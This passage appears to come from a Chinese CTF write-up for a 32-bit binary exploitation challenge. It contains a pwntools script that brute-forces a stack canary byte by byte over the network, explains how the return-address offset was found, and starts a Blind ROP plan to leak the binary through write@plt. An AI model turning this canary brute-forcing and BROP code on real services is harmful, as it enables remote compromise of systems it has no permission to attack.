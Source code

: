 ```python
            log.info("get_canary_entry: success: %d" % size)
            return size
```

- canary具体值的判断

  ​		在获得了canary的地址后，就需要逐字节试探canary的具体值。我们从最低字节开始，从0x00至0xff去试探canary当前字节的值，匹配后进入下一个字节的匹配过程，重复此过程，直至canary的4个字节全部匹配完毕。

  ​		需要注意的是，canary的值是与进程相关的，即每次连接服务器需要输入的canary都不相同，因此，每次连接都需要重新匹配。

  ​		大致爆破代码如下：

  ```python
  def get_canary(buf_size):
      canary = [ 0x00, 0x00, 0x00, 0x00]
      payload = 'A' * buf_size
  
      for i in range(4):   # 4 bytes
          for j in range(256): # 256 possibilities
              payload = 'A' * buf_size 
              for k in range(i+1): # already conformed canary bytes
                  payload += p8(canary[k])
              
              p.recvuntil("darker:")
              p.send(payload)
              p.recvline()
              output = p.recvline()
              if output[1] == '+':
                  #log.info("get_canary: fail! byte index: %d, byte val: %#x" % (i, canary[i]) )
                  canary[i] += 1
              elif output[1] == '-':
                  log.info("get_canary: success! byte index: %d, byte val: %#x" % (i, canary[i]))
                  break
      
      return ''.join(p8(i) for i in canary)
  
  ```

- 返回地址的判断

  ​		一开始我想当然的认为这个函数的返回地址就应该在canary地址+4B处，后来发现我无论怎么设置这个地址的值，子进程都不会崩溃，后来通过测试才发现，原来这个函数的返回地址在canary地址+12B处！

  ​		测试的方法也很简单，每次溢出处4字节（设置为任意值0xdeadbeef），直到程序崩溃。第一次发生崩溃的地址即为返回地址的位置

##### 3.1.2 Blind ROP

​		在找到canary，函数return address位置后，我们就可以寻找gadget了。我当时解题的思路是：与在64位环境下进行BROP不同，在i386下，其实我们只需要找到stop gadget即可。因为32位环境的参数传递是通过栈而非寄存器，那这样的话我我们只需要找到stop gadget，然后利用bof把栈设计成这样，根据输出开始是否为0x7fELF来判断是否找到了write的plt，之后就可以直接输出bin代码了。
